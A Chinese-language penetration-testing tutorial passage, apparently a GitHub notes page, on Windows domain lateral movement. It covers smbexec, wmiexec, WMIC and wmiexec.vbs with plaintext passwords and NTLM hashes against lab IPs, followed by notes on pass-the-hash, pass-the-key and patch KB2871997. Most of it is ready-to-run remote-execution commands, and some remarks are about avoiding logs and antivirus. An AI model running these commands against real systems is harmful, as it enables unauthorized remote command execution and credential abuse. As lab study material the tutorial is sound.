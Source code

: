    

#### smbexec

smbexec在impacket工具包内，非官方自带，无需先ipc链接再明文或hash传递

该工具操作简单，但是容易被杀毒软件杀

命令：

```
smbexec god/administrator:Admin12345@192.168.3.21
smbexec god/administrator:Admin12345@192.168.3.21

HASH连接：
smbexec -hashes :518b98ad4178a53695dc997aa02d455c ./administrator@192.168.3.32
smbexec -hashes :ccef208c6485269c20db2cad21734fe7god/administrator@192.168.3.21

```



### WMI 服务

`WMI(Windows Management Instrumentation)` 以服务名称`winmgmt`的形式运行，是通过 `135` 端口进行利用，支持用户名明文或者 `hash`的方式进行认证，并且该方法不会在目标日志系统留下痕迹。

自带 `WMIC` 明文传递，无回显

```
wmic /node:192.168.3.21 /user:administrator /password:Admin12345 process call create "cmd.exe /c 
ipconfig >C:\1.txt"
```

自带 cscript 明文传递，有回显（需要[wmiexec.vbs文件](https://www.secpulse.com/wp-content/uploads/2015/05/cache-a360611dc24d240989799c29c555e4b7_wmiexec-v1_1.rar)，**不支持哈希**）

```
cscript //nologo wmiexec.vbs /shell 192.168.3.21 administrator Admin12345
```

使用impacket套件中的wmiexec明文或hash传递，有回显（复制到靶机操作）

```
wmiexec ./administrator:admin!@#45@192.168.3.32 "whoami"
wmiexec god/administrator:Admin12345@192.168.3.21 "whoami"

wmiexec -hashes :518b98ad4178a53695dc997aa02d455c ./administrator@192.168.3.32 "whoami"
wmiexec -hashes :ccef208c6485269c20db2cad21734fe7 god/administrator@192.168.3.21 "whoami"
```



### PTH、PTK、PTT传递

对于 `8.1/2012r2`，安装补丁 `kb2871997` 的 `Win 7/2008r2/8/2012` 等，可以使用 `AES keys`
代替 `NT hash` 来实现 `PTK` 攻击（等于补丁导致不能进行哈希传递）

`KB2871997` 补丁后的影响（该补丁打了后系统的内存不保存明文的密码）

- `PTH`：没打补丁用户都可以连接，打了补丁只能 `administrator`（指靶机本地管理员，等于域用户和本地其他用户不能连接） 连接
- `PTK`：打了补丁才能用户都可以连接，采用 `AES256` 连接
